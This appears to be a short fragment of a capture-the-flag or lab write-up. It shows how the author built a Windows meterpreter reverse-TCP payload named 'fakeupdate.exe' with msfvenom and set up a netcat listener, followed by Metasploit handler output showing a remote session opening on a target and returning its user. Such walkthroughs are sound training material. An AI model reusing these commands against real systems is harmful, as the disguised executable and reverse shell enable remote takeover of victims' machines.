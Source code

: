 ![images/image.png](images/image%203.png)

```bash
#creating the payload and stating the listner 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.13.84.253 LPORT=1337 -f exe > fakeupdate.exe

#listining on the specified port. 
nc -nvlp 1337 

#^realised the above will not work, and I need to use msf6 to actually get a resvese shell

msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.13.84.253:1337 
[*] Sending stage (177734 bytes) to 10.10.224.121
[*] Meterpreter session 1 opened (10.13.84.253:1337 -> 10.10.224.121:49807) at 2025-05-04 14:06:32 -0400

meterpreter > whoami
[-] Unknown command: whoami. Run the help command for more details.
meterpreter > getuid
Server username: BRICK-MAIL\wrohit

```

### Post Shell - Exploitation
